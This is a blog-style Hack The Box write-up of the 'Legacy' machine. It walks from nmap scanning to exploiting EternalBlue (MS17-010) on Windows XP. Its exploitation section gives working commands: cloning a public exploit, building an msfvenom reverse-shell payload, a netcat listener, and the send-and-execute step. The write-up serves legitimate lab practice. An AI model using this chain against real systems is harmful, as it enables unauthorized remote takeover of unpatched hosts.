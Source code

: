 ```yaml
---
title: "Legacy"
date: 2023-06-26T00:50:22+02:00
tags: ["smb","windows"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "A windows room that has vulnerable samba service running."
description: "A windows room that has vulnerable samba service running."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Legacy
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Legacy

![Untitled](/HTB/legacy-icon.png)

## Tools Used

- Nmap
- Msfvenom
- Github

## Port Scanning

First we need to do a port scan to know what are we trying to exploit.

```bash
PORT    STATE SERVICE     REASON          VERSION
135/tcp open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open              syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-06-30T18:16:12+03:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29179/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 8957/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b9:90 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:b9:b9:90:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Look like we have two smb ports the 139,445 so we are going to focus on them.

## Enumeration

With `sudo nmap 10.10.10.14 -p 139,445 --script=vuln` I am going to see if nmap can see some vulnerabilities.

```bash
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (sudo)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
```

I found two possible vulnerabilities the MS17-010 (CVE-2017-0143) and MS08-067 (CVE-2008-4250) but because I have SMB v1 I am going to exploit the first one.

## Exploiting

The CVE-2017-0143 or better called Eternal Blue is a vulnerability that allows us to exploit the Microsoft’s implementation of the Server Message Block (SMB) protocol with a crafted package to have RCE in the victim machine. 

I can exploit the machine easily with metasploit but I am going to try another way more oscp friendly.

If we google MS17-010 we can found a git repository: https://github.com/helviojunior/MS17-010.git

```bash
git clone https://github.com/helviojunior/MS17-010.git
```

Once we cloned the exploit let’s get a reverse shell with mfsvenom (Legal in OSCP).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > eternalblue.exe
```

With a listener and sending the reverse shell with the help of the exploit we are able to own the machine.

```bash
nc -lv 4444
```

```bash
python send_and_execute.py 10.10.10.4 ~/Documents/exploits/eternalblue.exe
```

## Gaining an Initial Foothold

We are in now, with `dir user.txt /s` and `dir root.txt /s` we can know where is the flags.

![Untitled](/HTB/legacy-1.png)

![Untitled](/HTB/legacy-2.png)

## Lessons Learned

- What insights did you gain from the room?
    
    Now, we know how to perform a windows samba attack with the eternal blue vulnerability that allows me to RCE the victim machine.
    
- Were there any novel tools or techniques employed?
    
    I performed a CVE-2017-0143 exploit and msfvenom reverse shell.

**Thank you for reading, and happy hacking! 😄**
